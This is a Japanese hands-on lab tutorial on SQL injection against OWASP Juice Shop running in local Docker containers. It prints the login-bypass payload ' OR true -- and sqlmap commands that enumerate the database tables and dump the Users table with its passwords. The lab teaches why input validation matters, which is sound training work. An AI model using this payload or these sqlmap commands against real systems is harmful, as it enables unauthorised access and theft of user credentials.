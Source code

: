 # SQLインジェクション

対策の重要性を知るために SQL インジェクションを経験してみましょう。  

## コンテナ起動

```bash
# mongodb ディレクトリへ移動
$ cd $WORKDIR/juiceshop

# コンテナ起動
$ docker-compose up -d --build

# コンテナ起動確認
$ docker-compose ps
NAME                     IMAGE                          COMMAND                   SERVICE      CREATED          STATUS          PORTS
juiceshop-juice-shop-1   bkimminich/juice-shop:latest   "/nodejs/bin/node /j…"   juice-shop   22 seconds ago   Up 21 seconds   0.0.0.0:13000->3000/tcp    # STATUS が Up であること、PORTS が 0.0.0.0:13000->3000/tcp であることを確認
juiceshop-python-1       juiceshop-python               "bash -c /bin/bash"       python       45 seconds ago   Up 45 seconds                             # STATUS が Up であること
```

## Juice Shop 実習

### ブラウザで SQL インジェクション

ブラウザで `http://localhost:13000/` を開きます。  

右上にある `Accout` → `Log in` をクリックします。  

![login](login.png)


まずは Email と Password を予想してログインを試してみましょう。  

![alt text](loginform.png)

闇雲に試してもログインできないと思います。  
それでは、SQL インジェクションを試してみましょう。  
Email 欄に以下を入力してログインしてください。Password は何でも良いです。  

```
' OR true --
```

![alt text](logininjection.png)

ログインできましたね。  
データベースに対して以下の SQL 文が実行されました。   
`--` 以降はコメントアウトされるため、パスワードチェックが無視されました。  
Web アプリケーションからのいかなる入力に対して、必ずバリデーションを行いましょう。  

```sql
SELECT * FROM Users WHERE email = '' OR true --' AND password = '4124bc0a9335c27f086f24ba207a4912' AND deletedAt IS NULL"
```

### ツールで SQL インジェクション

世の中には SQL インジェクションを実行するツールがあります。  
有名な sqlmap を紹介します。  

```
# python コンテナ内部へ
$ docker-compose exec python bash
root@c1ea6879677a:/app#        # プロンプトが変わっていることを確認

# 初期攻撃を仕掛けます
root@c1ea6879677a:/app# python /app/sqlmap-1.8/sqlmap.py -u http://juice-shop:3000/rest/products/search?q= --random-agent --batch --banner --level 2

# 省略した出力を示します。この Web アプリケーションのバックエンド DB は SQLite であることがわかります。
[08:58:46] [INFO] the back-end DBMS is SQLite
[08:58:46] [INFO] retrieved: 3.44.2
back-end DBMS: SQLite
banner: '3.44.2'


# テーブル一覧を取得する攻撃を仕掛けます
root@c1ea6879677a:/app# python /app/sqlmap-1.8/sqlmap.py -u http://juice-shop:3000/rest/products/search?q= --random-agent --batch --tables

# 簡単にテーブル一覧が取得できました。  
[20 tables]
+-------------------+
| Addresses         |
| BasketItems       |
| Baskets           |
| Captchas          |
| Cards             |
| Challenges        |
| Complaints        |
| Deliveries        |
| Feedbacks         |
| ImageCaptchas     |
| Memories          |
| PrivacyRequests   |
| Products          |
| Quantities        |
| Recycles          |
| SecurityAnswers   |
| SecurityQuestions |
| Users             |
| Wallets           |
| sqlite_sequence   |
+-------------------+


# Users テーブルはおそらくユーザー一覧でしょう。このテーブルの中身を見る攻撃を仕掛けます
root@c1ea6879677a:/app# python /app/sqlmap-1.8/sqlmap.py -u http://juice-shop:3000/rest/products/search?q= --random-agent --batch --dump -D SQLite_masterdb -T Users --threads 10
```

どうでしょうか。ユーザー一覧とパスワードが取得できたと思います。  
こうなれば機密情報は盗み放題です。  
SQL インジェクション対策の重要性を理解していただけたでしょうか。  


## コンテナ停止

```bash
# コンテナからログアウト
root@c1ea6879677a:/app# exit

# コンテナ停止
$ docker-compose down
[+] Running 3/3
✔ Container juiceshop-juice-shop-1  Removed
✔ Container juiceshop-python-1      Removed 
✔ Network juiceshop_default         Removed

$ docker-compose ps
NAME      IMAGE     COMMAND   SERVICE   CREATED   STATUS    PORTS
# 結果がないことを確認
```

## 参考

[OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)

